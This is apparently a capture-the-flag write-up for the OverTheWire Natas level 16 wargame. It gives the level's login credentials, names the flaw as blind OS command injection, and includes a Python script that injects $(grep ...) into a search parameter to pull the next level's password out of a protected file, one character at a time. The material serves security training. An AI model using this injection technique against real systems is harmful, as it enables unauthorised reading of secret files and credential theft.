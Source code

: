 # Username
natas16
# Password
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Web vulnerability
Blind OS command injection
# Method of solve
Figure out that we can use the $() syntax to output the result of a command. For example...
```
$(grep E /etc/natas_webpass/natas17)
```
Will not return anything. But if an incorrect character is appended, then the entire dictionary is returned. So we can use the below script to automate the blind OS injection process.
```
#!/usr/bin/env python
 
import requests
from requests.auth import HTTPBasicAuth
 
url = 'http://natas16.natas.labs.overthewire.org/?needle='
s = requests.Session()
s.auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")
 
passfile17 = '/etc/natas_webpass/natas17'
prefix = 'tested'
 
def get_password_chars():
    filtered = ''
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
 
    print('Looking for password char set...')
    for char in chars:
        input_text = f'^{prefix}$(grep {char} {passfile17})'
        if is_hit(input_text):
            filtered += char
            print(f'The password contains: {filtered}')
 
    return filtered
 
def get_password(filtered):
    password = ''
    for i in range(32):
        print(f'Looking for the position {i}...')
 
        for char in filtered:
            input_text = f'^{prefix}$(grep ^{password}{char} {passfile17})'
            if is_hit(input_text):
                password += char
                print(password)
                break
 
    return password
 
def is_hit(data):
    resp = s.get(f'{url}{data}')
    return resp and prefix not in resp.text
 
# Step 1: Find out what chars the password contains
password_chars = get_password_chars()
 
# Step 2: Find out the password by ordering the chars found in step 1
password = get_password(password_chars)
print(f'The password is: {password}')
```
